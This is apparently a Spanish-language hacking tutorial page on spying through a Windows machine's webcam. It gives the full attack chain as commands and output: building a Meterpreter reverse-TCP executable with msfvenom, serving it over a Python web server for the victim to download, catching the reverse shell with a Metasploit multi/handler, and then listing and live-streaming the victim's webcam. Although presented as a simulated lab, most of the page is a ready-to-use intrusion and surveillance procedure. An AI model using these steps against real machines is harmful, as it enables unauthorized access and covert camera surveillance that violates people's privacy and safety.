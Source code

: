 ```yaml
---
icon: camera-web
---
```


# Visualizar Webcam en Windows

## <mark style="color:purple;">Vulnerar windows</mark>

Crearemos un archivo malicioso que la persona se descargara en internet, pero nosotros simularemos eso para tener una shell en metasploit de la maquina victima de windows.

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

Una vez creada la aplicacion maliciosa, abriremos un servidor de `python3` que es donde se simulara nuestra pagina web a la que el usuario tiene que entrar para descragarse el `.exe` malicioso.

```shell
python3 -m http.server 80
```

> Maquina windows

En la maquina windows, nos metemos a internet y ponemos la siguiente direccion URL.

```
URL = http://<IP_ATACKER>/shell.exe
```

Y esto nos descargara la aplicacion maliciosa, una vez hecho eso, configuraremos la escucha en metasploit antes de darle a ejecutar.

> Maquina atacante

```shell
msfconsole -q
```

```shell
use multi/handler
```

Configuramos el exploit de la escucha.

```shell
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

Ejecutamos el exploit y en ese momento estaria a la escucha, por lo que ejecutaremos el `.exe` para que nos de una shell.

```shell
run
```

Una vez ejecutado el `.exe` en la maquina windows, si volvemos a metasploit donde tenemos la escucha, obtendremos una shell con la maquina windows.

Info:

```
[*] Started reverse TCP handler on 192.168.5.199:7777 
[*] Sending stage (201798 bytes) to 192.168.5.141
[*] Meterpreter session 1 opened (192.168.5.199:7777 -> 192.168.5.141:49174) at 2024-08-02 13:34:09 +0200

meterpreter >
```

## <mark style="color:purple;">Vulnerar webcam</mark>

Vemos la lista de camaras que tiene activas.

```shell
webcam_list
```

Info:

```
1: Microsoft LifeCam Cinema(TM)
```

Vemos que tiene una, por lo que la ejecutaremos de la siguiente manera.

```shell
webcam_stream 1
```

Info:

```
[*] Starting...
[*] Preparing player...
[*] Opening player at: /home/dise0/Desktop/cPHdyMaU.html
[*] Streaming...
```

Y a parte de ponerte esto por terminal, se te habrira el navegador con la camara activa viendo lo que pasa a tiempo real como se muestar en la siguiente imagen.

<figure><img src="../.gitbook/assets/imagen_2024-08-02_162253328.png" alt=""><figcaption></figcaption></figure>

Por lo que ya habriamos vulnerado una webcam.
